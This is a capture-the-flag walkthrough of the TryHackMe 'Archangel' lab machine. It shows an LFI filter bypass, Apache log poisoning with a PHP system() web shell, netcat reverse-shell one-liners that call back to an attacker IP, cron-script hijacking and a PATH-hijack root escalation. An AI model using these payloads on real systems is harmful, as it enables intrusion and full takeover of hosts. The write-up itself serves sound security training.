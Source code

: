 
2025-02-15 18:31

Source: #Boot2root #tryhackme 
### Recon

Rustscan shows a ssh (22) and http (80) port open 

find the hostname using the command below 
```sh
curl -s 10.10.93.69 | grep ".thm"
```

add the newly found host to `etc/hosts`
```sh
echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
```
### Exploiting LFI 

dirsearch finds a `robots.txt`, the `robots.txt` tells us that `test.php` is disallowed for robots to crawl

On `test.php` page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter `?view=/var/www/html/development_testing/mrrobot.php` gets added to the URL. The entire path of the page `mrrobot.php` is provided over here which appears to be a bit odd because normally relative paths can be used.

Unfortunately, it seems we can’t read the code in `test.php`, probably due to a protection in the script.

However, if we try to include other files, e.g. `/etc/passwd`, we will get an error saying: ‘Sorry, That's not allowed’. To understand the code logic that filters out certain inputs, we can use PHP wrappers to include the source code of the page as base64 encoded text, then decode it. Info on PHP wrappers that can be used for LFI/RFI [https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), [PayloadsAllTheThings/File Inclusion at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)

syntax
```sh
http://***DOMAIN***.thm/***PAGE***?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/***PAGE***
```

```sh
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

above URL returns a base64 encoded string, decoding the string reveals code of `test.php`

The code is checking that the 2 below conditions are met about the injected content:

- it should not contain `../..`
- it should contain `/var/www/html/development_testing`

We can bypass the path traversal protection by replacing `../..` with `.././..`, as follows:

```sh
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log
```

From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

We’ll now poison the apache2 log file by injecting a PHP payload in the user-agent string as follows
Now, let’s download a PHP reverse shell. Start by hosting it locally (`python3 -m http.server`) and download it by sending the following request in BurpSuite Repeater

1. Add the following code somewhere in the `User-Agent` header value:
    
    ```html
    <?php system($_GET['cmd']); ?>
    ```
    
2. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file.

When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it. Therefore, you need to send the same request again so that the output written previous can now be viewed.

start of the malicious burp request looks 
```
GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
```
remember to url encode the revshell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f`

call the reverse shell on the server by browsing `http://mafialive.thm/rev.php` We now have a reverse shell:
```sh
rlwrap nc -nlvp 4444
```

### Horizontal Privilege Escalation

searching the machine doesn't reveal anything good, so search for cronjobs using `cat /etc/crontab`

Here, we can see that a shell script named as `helloworld.sh` in the `/opt` directory is being executed as user archangel. We can check the permissions of that file and try to use it to gain access to the system as user archangel.

```shell
www-data@ubuntu:/home/archangel/myfiles$ cat helloworld.sh
cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

From the output, we can see that all the `rwx` permissions are given to others. So, we can edit this file, add a payload in the bash script to create a reverse shell as user archangel. For this we can again use the same payload but change the port number

```shell
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4445 >/tmp/f" > /opt/helloworld.sh
```
### Privesc

The secret directory contains an interesting `backup` script that has the `SETUID` bit set. Using `strings`, we can see that the `cp` command is called to copy files:

The command `cp` is being called but without its full path being mentioned. So, we can create a fake `cp` executable in and prepend its location to `$PATH`. So, whenever `cp` is called our malicious binary gets executed instead of the original `cp` command

```
archangel@ubuntu:~/secret$ cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
archangel@ubuntu:~/secret$ chmod +x cp
archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH
```

when we will execute the script, it will use our own `cp` command, which will execute a root shell

#### Alternative

1. Create a fake `cp` file in `/tmp` directory and add the following code to it.
    
    ```shell
$ cd /tmp
$ touch cp
$ echo "/bin/bash -p" > cp
$ cat cp
$ chmod 777 cp
    ```
    
So, whenever the `cp` command is called `/bin/bash` would get executed with the permission of the effective user (in case of SUID binary, it would be `root`).
    
2. Prepend `/tmp` to `$PATH`
    
   ```shell
archangel@ubuntu:~/secret$ $PATH            
archangel@ubuntu:~/secret$ export PATH=/tmp:$PATH
   ```

execute `./backup`
### References
[TryHackMe | Cyber Security Training](https://tryhackme.com/room/archangel)

walkthrough

[Writeups/TryHackMe/Easy/archangel/archangel.md at master · 0xNirvana/Writeups · GitHub](https://github.com/0xNirvana/Writeups/blob/master/TryHackMe/Easy/archangel/archangel.md)
[TryHackMe-Archangel - aldeid](https://www.aldeid.com/wiki/TryHackMe-Archangel)
[Archangel - Write-up - TryHackMe | Rawsec](https://blog.raw.pm/en/TryHackMe-Archangel-write-up/)
[TryHackMe: Archangel Writeup. https://tryhackme.com/room/archangel | by ALIEN0X | Medium](https://medium.com/@infohellohumans/tryhackme-archangel-writeup-2807313edfb7)
[TryHackMe – Archangel walkthrough - narancs's blog](https://narancsblog.com/thm/easy/archangel/)